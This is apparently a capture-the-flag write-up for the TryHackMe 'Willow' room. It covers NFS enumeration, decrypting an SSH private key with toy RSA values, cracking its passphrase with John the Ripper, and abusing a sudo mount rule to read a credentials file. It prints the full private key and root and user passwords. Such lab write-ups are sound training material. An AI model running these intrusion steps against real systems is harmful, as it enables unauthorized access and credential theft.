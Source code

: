 # 31 - Willow (RSA calculator for SSH key)

Room Link --> [https://tryhackme.com/room/willow](https://tryhackme.com/room/willow)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -p- -T5 -sV -vv 10.10.243.176

# outputs
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
```
{% endcode %}

Opening the Webpage and we find a HEX encoded text, using cyberchef to decode it.

{% code overflow="wrap" lineNumbers="true" %}
```bash
Hey Willow, here's your SSH Private key -- you know where the decryption key is!
[..redacted..]
```
{% endcode %}

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### rpcbind enum \[111]

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap --script rpc-grind,rpcinfo 10.10.243.176 -p111

| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      37980/udp6  mountd
|   100005  1,2,3      51482/udp   mountd
|   100005  1,2,3      53265/tcp6  mountd
|   100005  1,2,3      58183/tcp   mountd
|   100021  1,3,4      44424/udp6  nlockmgr
|   100021  1,3,4      45652/udp   nlockmgr
|   100021  1,3,4      45701/tcp6  nlockmgr
|   100021  1,3,4      50990/tcp   nlockmgr
|   100024  1          49744/udp6  status
|   100024  1          52105/tcp   status
|   100024  1          55785/udp   status
|   100024  1          58486/tcp6  status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
```
{% endcode %}

#### NFS enum \[2049]

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ showmount -e 10.10.243.176      
Export list for 10.10.243.176:
/var/failsafe *

```
{% endcode %}

Mounting the NFS share.

{% code overflow="wrap" lineNumbers="true" %}
```bash
mount -t nfs 10.10.243.176:/var/failsafe /mnt/thm -o nolock

┌──(root㉿dking)-[/home/dking/Downloads]
└─# cd /mnt/thm && ls -al 
total 12
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 3 root   root    4096 Oct 17 13:12 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys

┌──(root㉿dking)-[/mnt/thm]
└─# cat rsa_keys 
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)

# Looks like a clue.
```
{% endcode %}

Back to the Webserver :(

The hint said we should visit this blog --> [https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/](https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/)

At the bottom of the blog there was some code that seemed to make sense:

<figure><img src="https://miro.medium.com/v2/resize:fit:362/1*_aB1ouQQGvfU3QwUtw4QJQ.png" alt="" height="45" width="526"><figcaption></figcaption></figure>

This seemed to tie in perfectly with the information found in the NFS file:

`Public Key (e=23, n=37625)`&#x20;

`Private Key (d=61527, n=37627)`&#x20;

We use this **RSA Calculator** to decrypt the HEX values --> [https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------](https://www.cs.drexel.edu/\~jpopyack/Courses/CSP/Fa17/notes/10.1\_Cryptography/RSA\_Express\_EncryptDecrypt\_v2.html?source=post\_page-----9a0f3611283d--------------------------------)

Just substitute the values in the appropiate box.

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we got the key.

```bash
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2E2F405A3529F92188B453CAA6E33270

qUVUQaJ+YmQRqto1knT5nW6m61mhTjJ1/ZBnk4H0O5jObgJoUtOQBU+hqSXzHvcX
wLbqFh2kcSbF9SHn0sVnDQOQ1pox2NnGzt2qmmsjTffh8SGQBsGncDei3EABHcv1
gTtzGjHdn+HzvYxvA6J+TMT+akCxXb2+tfA+DObXVHzYKbGAsSNeLEE2CvVZ2X92
0HBZNEvGjsDEIQtc81d33CYjYM4rhJr0mihpCM/OGT3DSFTgZ2COW+H8TCgyhSOX
SmbK1Upwbjg490TYvlMR+OQXjVJKydWFunPj9LbL/2Ut2DOgmdvboaluXq/xHYM7
q8+Ws506DXAXw3L5r9SToYWzaXiIqaVEO145BlMCSTHXMOb2HowSM/P2EHE727sJ
JJ6ykTKOH+yY2Qit09Yt9Kc/FY/yp9LzgTMCtopGhK+1cmje8Ab5h7BMB7waMUiM
YR891N+B3IIdkHPJSL6+WPtTXw5skposYpPGZSbBNMAw5VNVKyeRZJqfMJhP7iKP
d8kExORkdC2DKu3KWkxhQv3tMpLyCUUhGZBJ/29+1At78jHzMfppf13YL13O/K7K
Uhnf8sLAN51xZdefSDoEC3tGBebahh17VTLnu/21mjE76oONZ9fe/H7Y8Cp6BKh4
GknYUmh4DQ/cqGEFr+GHVNHxQ4kE1TSI/0r4WfekbHJr3+IHeTJVI52PWaCeHSLb
bO/2bSbWENgSJ3joXxxumHr4DSvZqUInqZ9/5/jkkg+DrLsEHoHe3YyVh5QVm6ke
33yhlLOvOI6mSYYNNfQ/8U/1ee+2HjQXojvb57clLuOt6+ElQWnEcFEb74NxgQ+I
DHEvVNHFGY+Z2jvCQoGb0LOV8cvVTSDXtbNQ5f/Z3bMdN3AhMN3tQmqXTAPuOI1T
BXZ1aDS6x+s6ecKjybMV/dvnohG8+dDrssV4DPyTOLntpeBkqpSNeiM4MdhxTHj1
PCkDWfBXEAEA/hfvE1oWXMNguy3vlvKn8Sk9We5fl+tEBvPjPNSWrEHksq4ZJWSz
JMEyWi/AxTnHDFiO+3m0Eovw41tdreBU2S6QbYsa9OOAiBnDmWn2m0YmAwS0636L
NJ0Ay4L+ixfYZ+F/5oVQbhvDoXnQCO58mNYqqlDVtD/21aj1+RtoYxSX2f/jxCXt
AMF890psZEugk+mhRZZ6HCvDewmBWkghrZeREEmuWAFkQWV/3gVdMpSdteWM7YIQ
MxkyUMs4jmwvA4ktznTVN1kK7VAtkIUa8+UuVUfchKpQQjwpbGgfdMrcJe55tOdk
M7mSP/jAl9bXlpyikMhrsdkVyNpFtmJU8EGJ4v5GlQzUDuySBCiwcZ7x6u3hpDG+
/+5Nf8423Dy/iAhSWAjoZD3BdkLnfbji1g4dNrJnqHnoZaZxvxs0qQEi/NcOEm4e
W0pyDdA8so0zkTTd7gm6WFarM7ywGec5rX08gT5v3dDYbPA46LJVprtA+D3ymeR4
l3xMq6RDfzFIFa6MWS8yCK67p7mPxSfqvC5NDMONQ/fz+7fO3/pjKBYZYLuchpk4
TsH6aY4QbgnEMuA+Errb/uf/5MAhWDMqLBhi42kxaXZ1e3ZMz2penCZFf/nofbLc
-----END RSA PRIVATE KEY-----
```

The hash is encrypted, we use `ssh2john` to crack the password.

{% code overflow="wrap" lineNumbers="true" %}
```bash
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt

# output
wildflower       (id_rsa) 
```
{% endcode %}

We login via ssh.

`ssh -i id_rsa willow@10.10.243.176` -  and we are logged in.

`sudo -l` - and we can execute `/bin/mount /dev/*` with privileges.

Lets first see what is in /dev/:

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*-5TMxRo9Fu-0brBgRygGTA.png" alt="" height="219" width="700"><figcaption></figcaption></figure>

There is an interesting directory /hidden\_backup. Let’s mount this, but first I will create a /dev/hidden\_backup directory in Willows /Home directory/ and then mount the /dev/hidden\_backup

_**`sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/`**_

We can now navigate to the /dev/hidden\_backup in our /home directory.

{% code overflow="wrap" %}
```bash
willow@willow-tree:~$ mkdir  dev
willow@willow-tree:~$ cd dev/
willow@willow-tree:~/dev$ mkdir hidden_backup
willow@willow-tree:~/dev$ cd ..
willow@willow-tree:~$ sudo mount /dev/hidden_backup /home/willow/dev/hidden_backup/
willow@willow-tree:~$ ls /home/willow/dev/hidden_backup/
creds.txt
willow@willow-tree:~$ cat /home/willow/dev/hidden_backup/creds.txt 
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```
{% endcode %}

And we got creds for root.

The user flag is in the "user.jpg" file.

Turns out the root flag was hidden inside the user.jpg file also, so we use the root password and steghide tool to get the root.txt.

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ steghide extract -sf user.jpg   
Enter passphrase: 
wrote extracted data to "root.txt".
                                                                                                                 
┌──(dking㉿dking)-[~/Downloads]
└─$ cat root.txt   
THM{find_a_red_rose_on_the_grave}
```
{% endcode %}

Done !
